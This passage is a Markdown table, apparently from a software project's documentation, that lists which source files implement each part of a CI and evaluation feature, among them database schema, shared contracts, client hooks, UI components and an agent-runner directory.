| Persistence | `server/src/db/schema/ci.ts` (`ciInstallations`, unwritten `ciRuns`), `server/src/db/schema/runs.ts` (`agentRuns`'s CI linkage columns) |
| Contracts | `vendor/shared/contracts/eval-ci.ts` (hand-mirrored to client) |
| Client data layer | `client/src/lib/hooks/ci.ts` |
| Client: CI tab | `client/src/app/agents/[id]/_components/AgentEditor/_components/CiTab/` |
| Client: Export Wizard | `client/src/app/agents/[id]/_components/AgentEditor/_components/ExportWizard/` |
| Client: CI Runs page | `client/src/app/ci-runs/` |
| Client: nav entry | `client/src/vendor/ui/nav.ts` (key `ci-runs`) |
| Client: i18n | `client/messages/en/ci.json` |
| Consumed, unmodified | `agent-runner/` — see [`agent-runner/README.md`](../../agent-runner/README.md) |
